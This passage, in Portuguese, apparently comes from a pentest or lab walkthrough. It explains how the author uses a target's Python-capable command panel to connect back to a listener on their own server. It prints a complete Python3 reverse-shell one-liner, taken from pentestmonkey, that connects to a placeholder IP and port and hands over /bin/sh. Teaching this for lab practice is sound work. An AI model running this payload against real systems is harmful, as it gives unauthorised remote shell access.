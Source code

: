 <figure><img src=".gitbook/assets/image24.png" alt=""><figcaption><p>image20</p></figcaption></figure>

Após executarmos o comando no nosso Servidor, estamos prontos para receber a conexão de saída do nosso Servidor-Alvo. No entanto, surge um problema: como iremos enviar essa conexão para o nosso servidor?

Lembrando do command panel que testamos e vimos que roda Python, decidimos utilizá-lo para fazer a conexão. Mas como faremos, Fernando? Existem várias maneiras. Por exemplo, você pode criar seu próprio código. No entanto, no nosso caso, procurei no Google por "reverse shell python3". Então encontramos um site chamado pentestmonkey.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU-IP´", PORTA-PARA-SE-ABRIR));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><img src=".gitbook/assets/image19.png" alt=""><figcaption><p>image21</p></figcaption></figure>
